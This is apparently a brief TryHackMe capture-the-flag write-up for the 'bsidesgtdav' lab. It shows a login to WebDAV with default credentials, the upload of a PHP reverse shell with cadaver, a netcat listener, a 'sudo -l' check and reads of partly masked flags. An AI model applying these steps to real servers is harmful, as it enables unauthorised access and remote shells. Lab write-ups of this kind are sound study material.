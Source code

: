 # bsidesgtdav
Tryhackme (bsidesgtdav) Write Up

webdav default login

http://10.10.135.159/webdav

Username: webdav <br />
Password: xampp


Using (*cadaver*)

put reverse-shell.php

http://10.10.135.159/webdav/reverse-shell.php

nc -lvnp 1234


![image](https://user-images.githubusercontent.com/80600420/147095168-66d56a92-9f49-49f8-9ddd-fbb13fbbdfcf.png)

/home/merlin
$ cat user.txt
```
449b40fe93f78a9***************
```
sudo -l 

![image](https://user-images.githubusercontent.com/80600420/147095353-32624d5f-1498-47ca-a022-5b5d8e1e5cc7.png)

sudo cat /root/root.txt

```
101101ddc16b0c***************
```
